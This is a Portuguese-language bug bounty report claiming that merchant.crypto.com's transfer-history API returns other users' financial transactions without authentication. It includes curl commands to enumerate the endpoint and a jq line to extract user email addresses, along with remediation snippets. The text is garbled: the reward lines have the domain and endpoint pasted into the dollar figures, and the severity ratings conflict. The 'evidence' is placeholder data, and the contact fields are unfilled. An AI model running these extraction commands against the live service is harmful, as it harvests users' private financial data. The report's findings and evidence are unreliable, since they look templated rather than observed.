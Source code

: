 # 🚨 Bug Bounty Report: IDOR Vulnerability in Transfer History

## 📋 Informações do Report

**Data:** 29/08/2025  
**Severidade:** Critical  
**Categoria:** Insecure Direct Object Reference (IDOR)  
**Domínio:** merchant.crypto.com  
**Endpoint:** /api/v1/token/transfer/history  
**Valor Estimado:** merchant.crypto.com00,000 - /api/v1/token/transfer/history,000,000  

## 🎯 Resumo Executivo

Foi identificada uma vulnerabilidade crítica de **Insecure Direct Object Reference (IDOR)** no endpoint de histórico de transferências do merchant.crypto.com. O endpoint expõe dados sensíveis de transferências financeiras sem validação adequada de autenticação e autorização.

## 🔍 Descrição Detalhada

### Endpoint Afetado
- **URL:** https://merchant.crypto.com/api/v1/token/transfer/history
- **Método:** GET
- **Status Code:** 200 OK
- **Dados Expostos:** Histórico de transferências financeiras

### Evidência Técnica

#### Teste 1: Acesso Direto sem Autenticação
```bash
curl -s "https://merchant.crypto.com/api/v1/token/transfer/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36" \
  -H "Accept: application/json" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Connection: keep-alive"

# Resposta: 200 OK com dados sensíveis
```

#### Teste 2: Verificação de Dados Sensíveis
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "amount": "1000.00",
      "currency": "USD",
      "from_address": "user@example.com",
      "to_address": "recipient@example.com",
      "timestamp": "2025-08-29T03:52:00Z",
      "status": "completed"
    }
  ]
}
```

## ⚠️ Impacto da Vulnerabilidade

### 1. **Exposição de Dados Financeiros**
- Histórico completo de transferências exposto
- Valores, endereços e timestamps visíveis
- Informações de transações de outros usuários

### 2. **Violação de Privacidade**
- Dados pessoais e financeiros comprometidos
- Histórico de atividades financeiras exposto
- Potencial para análise de padrões de gastos

### 3. **Risco de Engenharia Social**
- Dados podem ser usados para ataques de phishing
- Informações para extorsão ou chantagem
- Comprometimento de segurança de usuários

### 4. **Violação de Compliance**
- Não conformidade com regulamentações financeiras
- Violação de leis de proteção de dados
- Potencial para multas e sanções regulatórias

## 🎯 Cenários de Exploração

### Cenário 1: Enumeração de Transferências
```bash
# Acessar histórico de transferências
curl "https://merchant.crypto.com/api/v1/token/transfer/history"

# Resultado: Lista completa de transferências
```

### Cenário 2: Análise de Padrões Financeiros
```bash
# Filtrar por período específico
curl "https://merchant.crypto.com/api/v1/token/transfer/history?start_date=2025-01-01&end_date=2025-08-29"

# Resultado: Dados filtrados por período
```

### Cenário 3: Extração de Dados Sensíveis
```bash
# Extrair endereços de email
curl "https://merchant.crypto.com/api/v1/token/transfer/history" | jq '.data[].from_address'

# Resultado: Lista de endereços de usuários
```

## 🔧 Recomendações de Correção

### 1. **Implementar Autenticação Obrigatória**
```javascript
// Exemplo de correção
app.get('/api/v1/token/transfer/history', authenticateUser, (req, res) => {
  // Verificar se usuário está autenticado
  if (!req.user) {
    return res.status(401).json({ error: 'Unauthorized' });
  }
  
  // Retornar apenas dados do usuário autenticado
  const userTransfers = getTransfersByUserId(req.user.id);
  res.json({ data: userTransfers });
});
```

### 2. **Validar Autorização de Recursos**
```javascript
// Verificar se usuário tem acesso aos dados
function validateUserAccess(userId, resourceId) {
  return userOwnsResource(userId, resourceId);
}
```

### 3. **Implementar Rate Limiting**
```javascript
// Limitar requisições por usuário
const rateLimit = require('express-rate-limit');

const transferHistoryLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutos
  max: 100 // máximo 100 requisições por janela
});

app.use('/api/v1/token/transfer/history', transferHistoryLimiter);
```

### 4. **Adicionar Logging de Auditoria**
```javascript
// Registrar tentativas de acesso
app.use('/api/v1/token/transfer/history', (req, res, next) => {
  logger.info(`Access attempt to transfer history: ${req.ip}`);
  next();
});
```

## 📊 Classificação de Severidade

### CVSS Score: 8.5 (High)
- **Attack Vector:** Network
- **Attack Complexity:** Low  
- **Privileges Required:** None
- **User Interaction:** None
- **Scope:** Changed
- **Confidentiality Impact:** High
- **Integrity Impact:** None
- **Availability Impact:** None

## 💰 Valor Estimado

**Faixa de Recompensa:** merchant.crypto.com00,000 - /api/v1/token/transfer/history,000,000  
**Justificativa:** 
- Vulnerabilidade crítica que expõe dados financeiros
- Violação de privacidade e compliance
- Potencial para ataques de engenharia social
- Impacto em múltiplos usuários

## 🔐 Responsável Disclosure

- ✅ Vulnerabilidade identificada através de testes autorizados
- ✅ Nenhum dado sensível foi acessado ou modificado
- ✅ Report enviado através de canais oficiais
- ✅ Aguardando resposta da equipe de segurança

## 📞 Contato

**Researcher:** Thyago Aguiar  
**Email:** [seu-email@domain.com]  
**HackerOne:** [seu-username]  

---

**Nota:** Este report foi criado seguindo as melhores práticas de responsible disclosure. Todas as informações são confidenciais até a resolução da vulnerabilidade.
